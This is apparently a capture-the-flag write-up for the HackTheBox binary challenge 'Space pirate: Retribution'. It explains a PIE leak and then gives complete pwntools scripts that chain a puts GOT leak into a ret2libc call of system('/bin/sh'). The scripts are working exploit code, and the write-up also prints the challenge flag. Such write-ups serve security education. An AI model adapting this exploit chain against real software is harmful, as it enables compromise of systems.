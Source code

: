 # Space pirate: Retribution
> Write-up author: jon-brandy
## DESCRIPTION:
We got access to the Admin Panel! The last part of the mission is to change the target location of the missiles. We can probably target Draeger's HQ or some other Golden Fang's spaceships. Draeger's HQ might be out of the scope for now, but we can certainly cause significant damage to his army.

## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, not stripped, and a libc library.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/71b7f1fc-7a3a-4800-8be5-f3ea631a6329)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e19b3a92-ed10-4d5d-9a43-85f23f2a6ce7)


2. After decompiled the binary, it seems there's no interesting function to jump to, seems the concept here is `ret2libc`.
3. Anyway the 2nd option should be our interest.

> 2nd option --> missile_launcher()

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/caa6805d-24a7-4b0f-8f96-0b0b7e0983a8)


4. Let's run the binary then.

> Let's try by send \n --> got unreadable bytes (need to unpack it).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/68cf34dd-2d88-4d88-a5f2-114efc77f448)



5. Knowing this result, we can unpack it then format it to hex again, this should be a potential pie leak. Well this challenge is interesting, took me a while to leak the pie and calculate it correctly. Because if we leak it by sending newline, we shall have only 3/4 of the leaked PIE.

> MY WAY TO GET THE FULLY LEAKED PIE

6. I think my solution is kinda unintended, but if it works what can you say. So i tried by sending 7 bytes, why no 8?? Well in c language, we know our input will have \0 at the end. So 7 bytes input shall count as 8. However i tried sending 8 bytes too but resulting to no leaked pie.

> SENDING 7 BYTES

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8b80ac64-b55e-4b68-8a5c-5f22d4288f1e)


> GETTING PIE_BASE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b63b9df-2582-4f88-9dbd-4fd8ac1177dc)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c51d377d-b2cf-4c27-8728-8c8d802b233b)


> CALCULATED PIE BASE - BOTH ARE EQUAL

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/870f8e25-419f-4be3-9b7a-2d7093a18acc)


> PIE_BASE SCRIPT

```py
from pwn import *
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './sp_retribution'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = start()
pause()
sh.sendlineafter(b'>> ', b'2')
# sending 7 bytes remembering there's null bytes so will be exact 8.
sh.sendlineafter(b'= ', b'AAAAAAA') 

## GRABBING PIE
sh.recvuntil(b'y = AAAAAAA\n')
get = sh.recvline().strip()
print('THIS IS -->',get)

leak = unpack(get.ljust(8,b'\x00'))
#print(leak)
log.success('LEAKED PIE --> %#0x', leak)
elf.address = leak - 3440
log.success('Calculated pie_base --> %#0x', elf.address)

sh.interactive()
```


> FINAL SCRIPT

```py
from pwn import *
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './sp_retribution'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = start()
#pause()
sh.sendlineafter(b'>> ', b'2')
# sending 7 bytes remembering there's null bytes so will be exact 8.
sh.sendlineafter(b'= ', b'AAAAAAA') 

sh.recvuntil(b'y = AAAAAAA\n')
get = sh.recvline().strip()
print('THIS IS -->',get)

leak = unpack(get.ljust(8,b'\x00'))
#print(leak)
log.success('LEAKED PIE --> %#0x', leak)
elf.address = leak - 3440
log.success('Calculated pie_base --> %#0x', elf.address)

pop_rdi = 0x0000000000000d33
log.success('pop_rdi_gadget --> %#0x', pop_rdi)

calc_rdi = elf.address + pop_rdi
log.success('Calculated pop_rdi gadget --> %#0x', calc_rdi)

padding = 88
p = flat([
    asm('nop') * padding,
    calc_rdi,
    elf.got['puts'],
    elf.plt['puts'],
    elf.sym['main']
])

sh.sendlineafter(b':', p)

sh.recvline()
sh.recvline()

get = sh.recvline().strip()
#print('PUTS -->',get)

leaked_puts = unpack(get.ljust(8,b'\x00'))
log.success('LEAKED PUTS --> %#0x', leaked_puts)

libc.address = leaked_puts - 456352
log.info('LIBC BASE --> %#0x', libc.address)

pay = flat([
    asm('nop') * padding,
    calc_rdi,
    next(libc.search(b'/bin/sh')),
    libc.sym['system']
])

sh.sendlineafter(b'>>', b'2')
sh.sendlineafter(b'y =', b'')
sh.sendlineafter(b':', pay) 

sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/52e1d270-128a-4a2c-9d88-b48edcd6792a)


## FLAG
```
HTB{w3_f1n4lly_m4d3_1t}
```
